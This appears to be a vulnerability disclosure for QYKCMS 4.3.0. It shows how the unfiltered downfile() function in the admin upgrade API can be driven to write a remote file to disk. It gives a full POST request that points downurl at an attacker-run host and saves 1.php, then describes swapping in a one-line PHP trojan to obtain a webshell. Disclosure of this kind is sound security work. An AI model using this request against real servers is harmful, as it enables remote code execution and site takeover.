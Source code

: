 qykcms_ 4.3.0\wwwroot\admin_ A vulnerability exists in the 645-657 line downfile() function in system  include  function.php, which uses file_ get_ Contents() reads $url, and then uses file_ put_ The contents() function performs a write operation, only determining whether the file exists, without filtering the file content, file source, and file suffix

![image](https://user-images.githubusercontent.com/79570367/225640907-2ebbd786-2b6c-449c-8619-c19e99e96f44.png)

Global search downfile() function
qykcms_ 4.3.0\wwwroot\admin_ system\include\lib\down.php
Line 4 calls the downfile () function directly without filtering

![image](https://user-images.githubusercontent.com/79570367/225641018-066d9a7c-9580-4de8-9173-46c91c8d2352.png)

Qykcms All background file operations are performed through  wwwroot  admin_ System  api.php. $tcz receives post data and generates an array

![image](https://user-images.githubusercontent.com/79570367/225641125-4116b2cb-6c60-4d09-8078-5b5549ced88d.png)

Use switch to judge log parameters

![image](https://user-images.githubusercontent.com/79570367/225641234-07fbc338-3770-43da-a7ec-c334a74b2ea0.png)

When the parameter log is down, include/lib/down.php is included and executed
The vulnerability point is in the system - upgrade system - automatic upgrade

![image](https://user-images.githubusercontent.com/79570367/225641291-54c48afa-9e63-4b6d-93b9-bd4c121581dc.png)

Packet:

POST /admin_system/api.php HTTP/1.1

Host: 192.168.57.1:81

Accept: */*

Accept-Encoding: gzip, deflate

Origin: file://

Accept-Language: zh-CN,en,*

Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.2 (KHTML, like Gecko) Safari/535.2 wke/1.0

Content-Type: application/x-www-form-urlencoded

Content-Length: 108

Connection: close


admin=admin&key=3ba2d1dbeb29f11cf2fb44b77c8d19c1&log=down&downurl=http://192.168.57.2/&filename=1.php

Create a phpinfo file 1.php on the remote host and start the http.server service：

![image](https://user-images.githubusercontent.com/79570367/225641405-19cfe315-cc31-4c38-8cb9-54c8d4813b3a.png)

Send a request packet. The downurl is the IP+port of the vps, and the filename is the file name

![image](https://user-images.githubusercontent.com/79570367/225641500-309e108b-2dbb-4aaf-aaf0-5b6d7d35a510.png)

Access the returned path

![image](https://user-images.githubusercontent.com/79570367/225641571-4e48c4ff-7ed3-4121-bbbf-0fc79336043a.png)

Modify it to a one-sentence Trojan horse, send the data package to the server to download, and successfully obtain the webshell

![image](https://user-images.githubusercontent.com/79570367/225641703-295d58aa-82a3-468d-8439-4966c3f9633f.png)
